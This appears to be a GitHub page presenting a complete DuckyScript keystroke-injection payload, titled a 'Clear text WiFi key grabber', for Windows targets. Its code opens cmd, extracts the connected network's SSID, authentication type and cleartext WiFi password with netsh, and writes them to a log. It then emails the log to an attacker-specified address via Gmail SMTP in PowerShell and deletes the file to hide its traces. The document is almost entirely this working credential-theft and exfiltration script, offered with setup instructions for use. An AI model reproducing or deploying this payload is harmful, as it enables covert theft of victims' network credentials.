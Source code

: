 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
```
REM Author: Siem
REM Version: 1
REM Description: Clear text WiFi key grabber
DELAY 2000
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000
REM --> Change directory (you can change this to something else to make less visible)
STRING cd "%USERPROFILE%\Desktop"
ENTER
REM --> Get SSID
STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
ENTER
REM --> Get network type
STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
ENTER
REM --> Get authentication
STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
ENTER
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
ENTER
REM --> Get key
STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
ENTER
REM --> Delete Temp.txt
STRING del Temp.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!' 
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```